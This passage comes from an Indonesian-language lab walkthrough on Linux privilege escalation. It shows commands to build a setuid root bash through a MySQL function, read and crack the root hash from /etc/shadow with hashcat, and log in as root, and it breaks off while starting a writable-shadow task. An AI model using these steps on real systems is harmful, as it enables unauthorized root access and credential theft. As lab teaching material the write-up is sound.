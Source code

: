 ```shell
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

6. lalu keluar dari MySql service, dan run `/tmp/rootbash` dengan `-p` untuk mendapatkan shell root. 

```shell
/tmp/rootbash -p
```

# Task 3 : Weak Files Permissions - Readable /etc/shadow

dari hasil enumerasi dengan LinEnum, dapat dilihat bahwa kita dapat membaca file `/etc/shadow` yang mana seharusnya hanya bisa dibaca oleh root user. jadi kita dapat mengambil root hash dan decrypt menggunakan hashcat atau jtr.

1. ambil salt+hash

```shell
cat /etc/shadow
#copy root
```

2. store salt+hash

```shell
echo "salt+hash" > hash
```

3. gunakan hashcat

```shell
hashcat -a 0 -m 1800  hash /usr/share/wordlists/rockyou.txt
```

4. hasilnya adalah

```
...
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123
...
```

5. kita dapat cek dengan cara login ke root

```shell
su root
Password:password123
```

# Task 4 : Weak File Permissions - Writable /etc/shadow

ketika dicek lebih lanjut dengan `ls -la`, ternyata `/etc/shadow` dapat diedit, maka kita dapat mengganti password root dengan sesuka hati.

1. buat password baru
